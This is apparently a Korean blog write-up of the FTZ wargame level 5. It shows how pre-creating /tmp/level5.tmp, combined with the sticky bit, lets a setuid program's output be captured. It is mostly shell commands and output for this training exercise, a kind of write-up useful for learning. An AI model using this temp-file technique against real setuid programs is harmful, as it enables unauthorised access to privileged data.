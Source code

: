 ```yaml
---
layout: post
title: FTZ Level5
categories: [Wargame]
comments: true
---
```


{% highlight bash %}
[level5@ftz level5]$ cat hint 
 
/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.
 
이를 이용하여 level6의 권한을 얻어라.
{% endhighlight %}
 
이 문제를 tmp폴더의 특성을 이용해 풀이하였다.

{% highlight bash %}
[level5@ftz level5]$ ls -dl /tmp
drwxrwxrwt    3 root     root         4096 Oct  9 14:58 /tmp
{% endhighlight %}
 
/tmp폴더를 보게되면 sticky bit가 걸려있는데, 이를 이용해 문제를 풀 수 있다. 다른 사람의 풀이를 보게되면 race condition을 이용하여 해결하였다.

우선 `sticky bit`의 특성을 살펴보면 모든 권한이 있기 때문에 누구나 이 속에 있는 파일및 폴더를 수정 및 실행할 수 있다.

하지만 stiky bit로 인해 소유자를 제외한 사람은 삭제를 할 수 없다. 물론 root의 경우는 삭제가 가능하다. level5파일을 살펴보자.

{% highlight bash %}
[level5@ftz level5]$ ls -l /usr/bin/level5 
-rws--x---    1 level6   level5      12236 Sep 10  2011 /usr/bin/level5
{% endhighlight %}

level5파일은 level6의 권한으로 실행이 되게 된다. 이 말은 root가 아니므로 다른 사용자가 된다. 다른 사용자의 경우 삭제를 하지 못한다는 뜻이다.

level5의 권한으로 파일을 생성한 후 level6의 권한으로 이 **파일을 수정**할 수는 있지만, **삭제의 경우 불가능**하다.

그러므로 level5파일이 level5.tmp파일에 답을 쓴 후 **삭제를 하지 못하므로**, 안에 있는 값이 남아있게 된다.

{% highlight bash %}
[level5@ftz tmp]$ echo "" >> level5.tmp
[level5@ftz tmp]$ ls -l level5.tmp 
-rw-rw-r--    1 level5   level5          1 Oct  9 15:05 level5.tmp
[level5@ftz tmp]$ /usr/bin/level5
[level5@ftz tmp]$ ls -l level5.tmp 
-rw-rw-r--    1 level5   level5         31 Oct  9 15:05 level5.tmp
{% endhighlight %}

이렇게 실행을 하게 되면 파일의 크기가 변경되었음을 알 수 있다.

{% highlight bash %}
[level5@ftz tmp]$ cat level5.tmp 
next password : 
{% endhighlight %}